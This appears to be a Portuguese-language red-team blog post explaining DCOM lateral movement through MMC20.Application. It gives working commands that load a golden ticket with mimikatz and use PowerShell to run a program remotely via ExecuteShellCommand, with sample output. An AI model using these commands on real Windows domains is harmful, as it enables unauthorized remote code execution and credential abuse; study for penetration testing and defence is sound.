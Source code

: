 ```yaml
---
layout: post
title: Lateral Movement Technique using MMC20.Application
author: nagini
author_url: 
image: /assets/banners/nag.png
description: "Entenda o que é o MMC20.Application e como utilizá-lo para movimentação lateral em uma rede"
toc: true
---
```


```
           ___
          (___)     .-----------.
   ____          ,- | fuck off! |
 _\___ \  |\_/| /   `-----------` 
\     \ \/ , , \ _ _
 \__   \ \ ="= //|||\
  |===  \/____)_)||||
  \______|    | |||||
      _/_|  | | =====
     (_/  \_)_)   
  _________________
 (                _)
  (__   '          )
    (___    _____)
        '--'
```

Aqueles que estão familiarizados com engagements em Red Team, devem conhecer técnicas
comuns de movimentação lateral, dentre elas, as mais comuns são WinRM, wmiexec/psexec,
smbexec, Scheduled Tasks... Porém, muitas das vezes ao realizar um procedimento tão conhecido
pode sempre acabar gerando algumas flags que denunciariam o engage dos operadores.

# Introdução

Introduzindo o cenário, após efetuar um Kerberoasting e conseguir um acesso administrativo
em um servidor comum, utilizei essa técnica para fazer a movimentação lateral, posteriormente
eu utilizaria essa técnica em todo o domínio com um golden ticket impersonated, tornando essa
movimentação possível sem necessidade de credenciais.

Mas para entender como essa técnica funciona, é preciso entender um pouco sobre [COM (Component
Object Model)](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) e [DCOM (Distributed Component Object Model)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0)

# Component Object Model (COM)

COM é um sistema com um set de funções chamado de interface, com a finalidade de
criar componentes, objetos que serão posteriormente usados para interagir com outros
objetos. Eles podem ser instanciados em um processo comum, em uma thread ou até mesmo
remotamente

Basta utilizar qualquer linguagem do framework .NET para compilar um COM, a linguagem
e sua implementação são responsabilidades do programador.

# Distributed Component Object Model (DCOM)
 
Essa implementação torna possível a comunicação desses componentes pela rede, desde
que a interface exista nas duas máquinas. Cumprindo esse único requisito, você pode especificar
um UNC path ou diretamente o servidor e começar a comunicação, desde que você tenha tal
permissão.

Personificando golden ticket 
```powershell
PS> mimikatz.exe "kerberos::ptt C:\Tickets\gold.kirbi"
* File: 'C:\Tickets\gold.kirbi': OK
```

Com o ticket carregado na memória (personificado), você pode utilizar o próprio 
PowerShell para interagir localmente ou remotamente com algum componente, para
realizar a movimentação lateral, vamos trabalhar remotamente com a interface.

Antes de mais nada, utilizamos a função CreateInstance com o Macro GetTypeFromProgID
para nos conectarmos a interface remotamente, feito isso, podemos listar todas suas
funções

Para a exploração, vou usar a classe MMC20.Application da Microsoft, após estabelecer a 
conexão com ela, podemos listar as funções da interface e usar e abusar delas para comprometer
o servidor.

Realizando a conexão com a DCOM remotamente e listando suas funções

```PowerShell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView | Get-Member

Name                    MemberType                Definition
----                    ----------                ----------
ExecuteShellCommand     Method                    void ExecuteShellCommand(string, string, string, string)
```

Tendo em vista que a conexão foi estabelecida com sucesso, podemos 
invokar esse método, basta seguir sua definição.

Realizando conexão com a classe MMC20.Application (DCOM)
```powershell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.1.10"))
PS> $dcom.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

C:\Windows\System32> tasklist | findstr "calc.exe"
calc.exe        6467 Console    1   3 922 K
```

